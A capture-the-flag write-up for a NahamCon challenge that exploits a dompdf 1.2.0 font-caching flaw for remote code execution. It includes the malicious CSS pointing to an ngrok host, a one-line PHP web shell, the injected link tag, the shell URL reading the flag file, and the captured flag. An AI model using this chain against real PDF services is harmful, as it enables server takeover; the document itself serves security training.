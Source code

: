 # Stickers

Date: 16/06/2023

Url: [http://challenge.nahamcon.com:31422/](http://challenge.nahamcon.com:31422/)

The webapp is like this:

![Untitled](Stickers%2095be2efdfd064eb7a818ef0bef7dba4f/Untitled.png)

Let’s use the webapp like a normal user to understand what it do:

![Untitled](Stickers%2095be2efdfd064eb7a818ef0bef7dba4f/Untitled%201.png)

After submitting it redirect me to a pdf file:

![Untitled](Stickers%2095be2efdfd064eb7a818ef0bef7dba4f/Untitled%202.png)

Let’s download it and let’s see all the metadata of the file using `exiftool`:

![Untitled](Stickers%2095be2efdfd064eb7a818ef0bef7dba4f/Untitled%203.png)

The producer is `dompdf 1.2.0` and I googled it to know if there is vulnerability of this software version and I found these resources:

- [Link1](https://exploit-notes.hdks.org/exploit/web/dompdf-rce/)
- [Link2](https://github.com/positive-security/dompdf-rce/)

The exploit consists of:

- Create a file `test.css`:
    
    ```powershell
    @font-face {
        font-family:'evil';
        src:url('http://f2ff-101-56-73-87.ngrok-free.app/exploit2.php');
        font-weight:'normal';
        font-style:'normal';
      }
    ```
    
- Create a file `exploit.php` (you can use any `ttf` file appending php code and changing the file type from ttf to php)
    
    ```powershell
    <?php system($_GET["cmd"]); ?>
    ```
    
- Add this text to one of the fields that will be added to the pdf:

```powershell
<link rel=stylesheet href='http://f2ff-101-56-73-87.ngrok-free.app/test.css'>
```

- Then understand where the file uploaded is stored: I found the correct path is:
    
    ```powershell
    /dompdf/lib/fonts/
    ```
    
- create the md5 of the filename of the php file:
    
    ![Untitled](Stickers%2095be2efdfd064eb7a818ef0bef7dba4f/Untitled%204.png)
    
- get the php file uploaded and it will be executed: `/font-family_font-style_md5.php`
    
    ```powershell
    /dompdf/lib/fonts/evil_normal_ee8715ae24101cbb608f466fde338501.php?cmd=cat</flag.txt
    ```
    

Then got the flag: `flag{a4d52beabcfdeb6ba79fc08709bb5508}`